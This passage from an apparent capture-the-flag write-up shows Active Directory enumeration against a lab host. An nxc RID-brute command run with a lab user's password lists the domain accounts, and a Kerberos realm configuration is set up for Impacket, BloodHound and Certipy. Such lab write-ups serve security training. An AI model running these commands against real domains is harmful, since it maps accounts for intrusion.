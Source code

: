 <p class="indent-paragraph">
Using the <code>nxc</code> tool with the <code>--rid-brute</code> flag against the <code>DC01</code> host, we were able to extract a full list of domain SIDs and filter them by user type.
</p>

```
~$ nxc smb certificate.htb -u sara.b -p 'Blink182' --rid-brute | grep "SidTypeUser" | awk -F '\\\\' '{print $2}' | awk '{print $1}'

Administrator
Guest
krbtgt
DC01$
WS-01$
Kai.X
Sara.B
John.C
Aya.W
Nya.S
Maya.K
Lion.SK
Eva.F
Ryan.K
akeder.kh
kara.m
Alex.D
karol.s
saad.m
xamppuser
WS-05$
```

### 🔍 Enumerating AD Group Memberships from a Low-Privileged User

<p class="indent-paragraph">
Next, the <code>/etc/krb5.conf</code> file was updated to define <code>certificate.HTB</code> as the default realm. The configuration disabled automatic DNS lookups and explicitly pointed both the KDC and admin server fields to the target IP. This setup is critical for interacting with Kerberos-based environments and enables tools such as <code>Impacket</code><span class="codefix">,</span> <code>BloodHound</code><span class="codefix">,</span> and <code>Certipy</code> to function correctly.
</p>

```
~$ nano /etc/krb5.conf

[libdefaults]
    default_realm = certificate.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = true
    renewable = true

[realms]
    certificate.HTB = {
        kdc = <IP>
        admin_server = <IP>
    }

[domain_realm]
    .certificate.htb = certificate.HTB
    certificate.htb = certificate.HTB
```
